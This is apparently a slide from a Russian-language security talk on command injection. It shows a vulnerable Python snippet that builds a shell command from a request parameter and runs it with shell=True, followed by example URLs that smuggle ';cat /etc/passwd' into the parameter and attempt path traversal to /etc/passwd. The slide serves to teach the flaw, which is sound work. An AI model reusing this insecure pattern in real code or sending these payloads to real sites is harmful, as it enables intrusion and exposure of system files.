

# Command injection
month = request.GET['month']

cmd = "ls /home/backups/" + month
output = subproces.check_output(cmd, shell=True)
# …

Эксплуатируем уязвимость

http://site.ru/backups/?month=may;cat+/etc/passwd

http://site.ru/backups/?month=../../../../etc/passwd
22